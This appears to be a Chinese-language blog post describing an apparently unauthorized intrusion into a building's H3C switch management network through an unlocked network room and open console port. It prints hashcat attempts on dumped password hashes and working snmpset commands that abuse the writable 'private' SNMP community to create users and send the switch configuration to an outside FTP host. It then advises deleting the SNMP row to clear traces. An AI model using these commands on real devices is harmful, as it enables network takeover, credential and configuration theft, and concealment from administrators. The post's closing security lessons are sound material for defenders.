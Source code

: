 ```yaml
---
updated: 2025-03-23 00:48:09
title: SNMP is not only "Monitoring" Protocol - Exploiting H3C SNMP
date: 2024-11-25 14:04:08
description: 本文探讨了 SNMP 的管理功能及其安全隐患，通过实际案例分析了 H3C 设备的配置漏洞，详细记录了利用 SNMP 获取权限的过程，包括配置文件管理、用户创建尝试及技术难点，并提出了相关安全建议。
tags:
  - 网络
  - 网络安全
---
```


Simple Network *Management* Protocol 是一个用于网络监控和管理的协议. 对于不少人而言, 使用 Grafana 等软件配置 SNMP 监控可以对各种维护信息进行方便地可视化; 但是很多时候我们会忘记, SNMP 是用于 "管理" 的协议, 而不只是 "监控". 因此, 当我们打开 SNMP 时, 我们常常忽略可写的默认配置 (`private` community), 而这会带来灾难性的后果. 这篇博客记录了一次近源渗透的过程.

<!-- more -->

### 交换机在网络间, 网络间锁门, 所以交换机串口不用设密码

有句笑话, "内网安全全靠内网". 这句话在交换机管理口上似乎也适用. 起因是某一天, 我发现网络间的门是开着的, 遂跑进去看了一眼. 由于随身携带网串口线, 我就顺势接了进去. 你猜咋的, Console 口没有 Login 口令也没有 Enable 口令, 直接就是 manage 权限. 后来有位神人把他工位上的网口在网络间的那一端插到 Console 里面去了, 于是获取了 *"持久化"* 的管理权限, 还把旁边的口改成了 Trunk permit all.

### 管理 VLAN 暴露

我本来是懒得管这事的, 但是那位神人把自己的机器接进了管理 VLAN, 狠狠 nmap, 发现里面有不少 H3C 的设备, 应该是整栋楼的网都在里面了. 这下不得不玩一玩了.

我们首先分析了从串口拿到的配置文件, 试图从里面找到 SSH 登录的明文口令. 显然, 没有成功. 但也不是没有收获:

```cfg
local-user #redacted# class manage
 password hash $h$6$/g0pzMiowRibMf+V$gCebiPsmL+rx97v9AHzImTVu/dd5OvkUB2vzPqq9igyaeMeN9yi6b0ffhUyElujx4NF4t9eWn9nZ7zi6C/3rWw==
 service-type ssh
 authorization-attribute user-role network-admin
 authorization-attribute user-role network-operator
 password-control length 4
 undo password-control complexity user-name check
```

这里有密码 Hash, 我们尝试了爆破 ([`$h$6$` Hashcat](https://github.com/84634E1A607A/hashcat/tree/switch_6) ), 但是没有成功. (这告诉我们强密码还是很重要的) 虽然这里面有两个让人浮想联翩的指令 (最小密码长度为 4, 且允许密码中含有用户名), 但是爆破的结果确实不尽如人意.

后来发现 SNMP 开启, 故转而尝试攻击 SNMP.

```cfg
 snmp-agent
 snmp-agent local-engineid 800063A280542BDE8D70C200000001
 snmp-agent community write private
 snmp-agent community read public
 snmp-agent community read cipher $c$3$ljPpsn9d1TBzHoeOpGi1eYcWjfU1nQ==
 snmp-agent community write cipher $c$3$MfmpsSsRFIeSziIk4dkOYMkWuufIEB4=
 snmp-agent sys-info version v1 v2c 
 snmp-agent target-host trap address udp-domain 192.168.xxx.xxx params securityname public v2c
 snmp-agent target-host trap address udp-domain 192.168.xxx.xxx params securityname public v2c
 snmp-agent target-host trap address udp-domain 192.168.xxx.xxx params securityname xxx v2c
```

一开始我还尝试逆向 `$c$3$` crypto, 发现有亿点麻烦; 后来发现这个 `read public` 就是明文, 完全没必要去逆向这个 crypto. 再后来我就懒得管了, 停了不少时间.

### SNMP

这两天突然想起来, SNMP 除了这个只读的 `public` 之外, 还有一个可写的叫 `private` 的 community. 这就不得不试试能不能通过 SNMP 获得全部的权限了.

首先, SNMP 本身就能更改不少东西, 包括但不限于端口的开关, 通过的 VLAN, 等等. 可以说, 有 SNMP 写权限就已经有了 80% 的权限. 但是, 能不能通过 SNMP 拿到 SSH 权限呢?

为了搞清楚 SNMP 在干啥, 首先我们去 H3C 官网拿到 MIB 文件 `20210923_6181667_Comware_MIB-20210918_635750_30003_0` (我就不放上来了). 通过 `snmpwalk -v2c -c public xxx.xxx.xxx.xxx 1.` 等手段可以方便地拿到只读信息. 然后可以对我们感兴趣的部分做研究.

#### SSH?

H3C 对 SSH-MIB 的解释在 [这里](https://www.h3c.com/en/Support/Resource_Center/EN/Switches/Catalog/S9820/S9820/Technical_Documents/Reference_Guides/MIB_Companion/H3C_S9820_8C_MIB_Companion_Rele-17750/13/202403/2070882_294551_0.htm) (应该不会倒闭吧). 对 SSH 的攻击思路是: 新建一个 SSH 用户, 开启这个用户的公钥登录, 把自己的公钥设置进去, 登录; 或者新建一个 SSH 用户并新建一个本地用户, 设置本地用户的密码, 使用 SSH 密码登录.

非常可惜的是, 设置 SSH 公钥登录的逻辑是 新建公钥 -> 给公钥命名 -> 给 SSH 用户 Assign 这个名称. 而我没有找到如何使用 SNMP 创建公钥. 因此, 这条路倒闭了. (如果手头有一台设备, 或许可以对照一下试出来)

而设置密码登录需要新建本地用户. 理论上这个交换机里面已经有两个本地用户了, 但是我从 SNMP 的 USER 表里面读出来的个数是 0. 因此, SNMP 的 USER 表和交换机的 local user 似乎有一些区别. 在使用 [USER-MIB](https://www.h3c.com/en/Support/Resource_Center/HK/Routers/H3C_SR8800-F/H3C_SR8800-F/Technical_Documents/Reference_Guides/MIB_Companion/H3C_SR8800_F_Routers_MIB_R-13029/17/202308/1909461_294551_0.htm) 创建用户之后, SSH 也无法登陆.

这条路到这里似乎就寄了. 但是还是记录一下:

```sh
snmpset -v2c -c private 192.168.xxx.xxx HH3C-USER-MIB::hh3cUserName.1 string adnin HH3C-USER-MIB::hh3cUserInfoRowStatus.1 integer 4 HH3C-USER-MIB::hh3cUserPassword.1 string AdminADN1n HH3C-USER-MIB::hh3cAuthMode.1 integer 0
```

#### CFG?

后来我又翻到了这篇文档: [通过SNMP进行配置文件管理举例](https://www.h3c.com/cn/d_200906/636072_30003_0.htm#_Toc231200647)

也就是说, **SNMP 可以用于直接管理交换机的配置文件**. 对应 OID 位于 [HH3C-CONFIG-MAN-MIB::hh3cCfgOperateTable](https://www.h3c.com/cn/d_202202/1547434_30005_0.htm), 其中 `hh3cCfgOperateType` 可以管理交换机配置文件, 且参数可以是 `running2Startup(1) startup2Running(2) running2Net(3) net2Running(4) net2Startup(5) startup2Net(6) running2File(7) file2Running(8)`. 可以看到, 此表支持利用 FTP 把当前配置传到远程主机上, 也可以从远程主机下载配置.

需要注意的是, 此处会使用 FTP 的 ascii mode (这个狗屎玩意已经被很多 FTP 服务器弃用了, 需要在配置里面手动开启).

使用以下命令:

```sh
snmpset -v2c -c private 192.168.xxx.xxx HH3C-CONFIG-MAN-MIB::hh3cCfgOperateType.1 integer 6 \ # 6: startup2Net
HH3C-CONFIG-MAN-MIB::hh3cCfgOperateRowStatus.1 integer 4 \ # 4: createAndGo, 即创建后立即执行
HH3C-CONFIG-MAN-MIB::hh3cCfgOperateProtocol.1 integer 1 \ # 1: FTP
HH3C-CONFIG-MAN-MIB::hh3cCfgOperateFileName.1 string t/cfg \ # FTP 上传的位置
HH3C-CONFIG-MAN-MIB::hh3cCfgOperateServerAddress.1 a 192.168.xxx.yyy \ # FTP 服务器的地址
HH3C-CONFIG-MAN-MIB::hh3cCfgOperateUserName.1 string anonymous \ # FTP 用户
HH3C-CONFIG-MAN-MIB::hh3cCfgOperateUserPassword.1 string anonymous \ # FTP 密码
HH3C-CONFIG-MAN-MIB::hh3cCfgOperateServerPort.1 integer 21 \ # FTP 端口
HH3C-CONFIG-MAN-MIB::hh3cCfgOperateSrvAddrType.1 integer 1 # 1: ipv4
```

在 FTP 服务器配置正确的情况下, 就可以拿到交换机的配置文件了. (怎么改就不用说了吧) 然后记得删掉这一行, 清除痕迹 (不过会有 Log 记录下来)

```sh
snmpset -v2c -c private 192.168.xxx.xxx HH3C-CONFIG-MAN-MIB::hh3cCfgOperateRowStatus.1 integer 6
```

至此, 这整个管理网就算烂完了. 不过在搞完之后发现由于没有配 ACL, 以业务网的交换机地址为网关可以直接访问管理网...... 所以好像也没什么问题......

